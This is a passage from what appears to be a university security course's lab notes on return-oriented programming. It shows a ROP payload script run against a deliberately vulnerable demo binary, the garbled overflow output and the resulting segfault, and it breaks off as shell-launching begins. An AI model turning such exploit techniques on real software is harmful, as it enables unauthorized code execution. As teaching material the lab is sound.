 And it works:

``` example
user@si485H-base:demo$ ./vulnerable `python print_string_rop.py "Go Navy, Beat Army!"`
Buf: ++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++z`F?
                                                                                                                        GGGGﾭަ??????]`z??????@z`F?
                                                                                                                                                ooooﾭަ??????]`z??????@z`F?
                                                                                                                                                                        fﾭަ??????]`z??????@z`F?
                                                                                                                                                                                             NNNNﾭަ??????]??????@z`F?
        aaaaﾭަ??????]`z??????@z`F?
                                vvvvﾭަ??????]`z??????@z`F?
                                                        yyyyﾭަ??????]`z??????@z`F?
                                                                                ,,,,ﾭަ??????]`z??????@z`F?
                                                                                                        fﾭަ??????]`z??????@z`F?
                                                                                                                             BBBBﾭަ??????]`z??????@z`F?
                                                                                                                                                     eeeeﾭަ??????]`z??????@z`F?
                                                                                                                                                                             aaaaﾭަ??????]`z??????@z`F?
                                                                                                                                                                                                     tttﾭަ??????]`z??????@z`F?
                 fﾭަ??????]`z??????@z`F?
                                      AAAAﾭަ??????]`z??????@z`F?
                                                              rrrrﾭަ??????]`z??????@z`F?
                                                                                      mmmmﾭަ??????]`z??????@z`F?
                                                                                                              yyyyﾭަ??????]`z??????@z`F?
                                                                                                                                      !!!!ﾭަ??????]`z??????@z`?ﾭ?ffffffffffﾭަ??????]`z??????@????
Go Navy, Beat Army!
Segmentation fault (core dumped)
user@si485H-base:demo$ dmesg | tail -1
[1565900.040307] vulnerable[11345]: segfault at cafebabe ip cafebabe sp bffff654 error 15
```

## Launching a shell

We actually have everything we need to also launch a shell. It is the
same as writing an 'A' but now we also have to set up the other
registers slightly differently. Recall, this is what we need:
